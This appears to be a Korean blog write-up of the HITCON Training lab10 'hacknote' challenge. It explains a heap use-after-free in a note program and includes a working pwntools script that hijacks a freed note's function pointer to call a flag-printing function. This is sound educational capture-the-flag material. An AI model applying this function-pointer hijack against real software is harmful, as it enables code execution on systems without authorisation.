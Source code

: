```yaml
---
layout: post
title: "[HITCON Training] lab10"
comments : true
category : War Game
---
```


# 문제
***

hacknote 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```

file 명령어 결과는 다음과 같다.
```
hacknote: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b7cd347eef976fbccc3014a5a14c5a739e514d09, not stripped
```

바이너리 코드

add_note 함수
```
for(i=0;i<=4;++i)
(
    if(!notelist[i])
        notelist[i]=malloc(8u);
    ...
    *notelist[i]=print_note_content;
    ...
    read(0,&buf,8u)
    size=atoi(&buf);
    v0=notelist[i];
    v0[1]=malloc(size);
    ...
    read(0,*((void**)notelist[i]+1),size)
    ...
    ++count;
    return *MK_FP(__GS__,20)^v5;
)
...
```

del_note 함수
```
...
read(0,&buf,4u);
v1=atoi(&buf);
...
if(notelist[v1)
(
    free(*((void**)notelist[v1]+1));
    free(notelist[v1])
    puts("Success")
)
return *MK_FP(__GS__,20)^v3;
```

print_note 함수
```
...
read(0,&buf,4u);
v1=atoi(&buf);
...
if(notelist[v1])
    (*(void(__cdecl**)(void *))notelist[v1])(notelist[v1]);
return *MK_FP(__GS__,20)^v3;    
```

del_note를 통해서 free을 한 heap 영역을 print_note를 통해서 사용할 수 있기 때문에 use after free 취약점이 존재한다.

또한 해당 바이너리에는 
```return system("cat /home/hacknote/flag")```를 호출하는 magic 함수가 존재한다.  

## exploit 방법
1. add_note 함수 호출을 통해서 16byte 공간을 할당받고 해당 주소를 notelist[0]에 저장한다. 그리고 read 함수의 인자로 16보다 더 큰 값을 넣어줘서 16byte 보다 더 큰 공간을 할당받는다. 
2. 1번과 동일한 행위를 반복해서 notelist[1]에 16바이트 공간의 주소를 저장한다.  
3. del_note 함수 호출을 통해서 0번 notelist를 free한다. 그 결과 16바이트 fastbin list에 notelist[0]에 저장된 주소의 영역이 들어간다.
4. 3번과 동일한 행위를 반복하면 fastbin list에 notelist[1]에 저장된 주소의 영역이 들어간다. 
5. add_note를 함수를 호출하면 fastbin은 LIFO 구조이기 때문에 notelist[3]에 notelist[1]에 저장된 주소가 할당된다. 그리고 read 함수의 인자로 8을 주면 (notelist[3]+1)에 notelist[0]에 저장된 주소가 할당된다.
그 다음 호출되는 read 함수를 통해서 *(notelist[0])에 magic 함수의 주소를 넣는다.
6. print_note 함수를 통해서 ```(*(void(__cdecl **)(void *))notelist[0])(notelist[0])```를 실행하면 magic 함수를 호출할 수 있다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def add_note(num,pay):
        p.recvuntil("choice :")
        p.send("1")
        p.recvuntil("Note size :")
        p.send(str(num))
        p.recvuntil("Content :")
        p.send(pay)

def del_note(num):
        p.recvuntil("choice :")
        p.send("2")
        p.recvuntil("Index :")
        p.send(str(num))
        p.recvuntil("Success\n")

def print_note(num):
        p.recvuntil("choice :")
        p.send("3")
        p.recvuntil("Index :")
        p.send(str(num))

file_path="/home/sungyun/HITCON-Training/LAB/lab10/hacknote"

p=process(file_path)

magic_system=0x08048986

add_note(20,"hi_3ffr3s")
add_note(20,"hi_3ffr3s")

del_note(0)
del_note(1)

add_note(8,p32(magic_system))

print_note(0)

print p.recvline()

```

# 알게 된 것
***
1. fastbin은 같은 크기의 chunk들이 single-linked list 구조로 연결되어 있고 LIFO 구조이다. 또한 인접한 chunk와 병합되지 않는다. (fastbin이 아닌 다른 chunk들은 인접한 서로 다른 두 chunk가 free되면 병합된다. top chunk와 인접한 chunk도 병합됨) gdb에서 global_max_fast의 값을 통해 fastbin의 크기를 확인할 수 있다.

2. prev_inuse이 비트는 앞에 위치한 chunk가 free되면 0으로 세팅된다. (fastbin은 prev_inuse 비트를 사용하지 않는다.)

3. free하면 fd/bk (fastbin은 fd만) 주소 값으로 data 영역을 덮어쓴다. 가리킬 곳이 없으면 NULL이 들어간다.

